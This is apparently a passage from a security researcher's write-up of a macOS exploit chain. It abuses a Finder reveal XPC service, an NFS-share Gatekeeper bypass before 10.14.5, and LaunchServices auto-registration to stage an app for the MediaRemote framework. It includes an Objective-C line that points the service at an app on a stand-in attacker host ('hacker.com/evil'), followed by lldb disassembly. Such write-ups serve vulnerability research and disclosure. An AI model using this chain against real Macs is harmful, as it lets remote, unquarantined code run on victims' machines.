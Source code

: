 As for the `HIS_XPC_RevealFileInFinder` you can locate arbitrary file url in Finder app. I noticed that I can just specify a NFS share (`/net/hostname/blah`) like this:

```objc
xpc_object_t url = _CFXPCCreateXPCObjectFromCFObject(CFURLCreateWithString(kCFAllocatorDefault, CFSTR("file:///net/hacker.com/evil/share/Dash.app"), NULL));
```

There was a GateKeeper bypass at the time (<10.14.5) that remote contents from NFS share have no quarantine flag:

[MacOS X GateKeeper Bypass](https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass)

Here is the interesting part. When finder locates this remote resource, it automatically registers the app to the LaunchService.

![](/img/2020-05-27-revisiting-an-old-mediaremote/launchservice.png)

Now let's go back to the MediaRemote framework. It can only launch known apps.

```
(lldb) dis -a 0x00007fff4d98fa48
MediaServices`MSVLaunchApplication:
0x7fff4d98f9ff <+0>: pushq %rbp
0x7fff4d98fa00 <+1>: movq %rsp, %rbp
0x7fff4d98fa03 <+4>: pushq %r15
0x7fff4d98fa05 <+6>: pushq %r14
0x7fff4d98fa07 <+8>: pushq %r13
0x7fff4d98fa09 <+10>: pushq %r12
0x7fff4d98fa0b <+12>: pushq %rbx
0x7fff4d98fa0c <+13>: subq $0x38, %rsp
0x7fff4d98fa10 <+17>: movq %rdx, %r15
0x7fff4d98fa13 <+20>: movq %rsi, %rbx
0x7fff4d98fa16 <+23>: movq 0x42adc793(%rip), %r12 ; (void *)0x00007fff5950cd50: objc_retain
0x7fff4d98fa1d <+30>: callq *%r12
```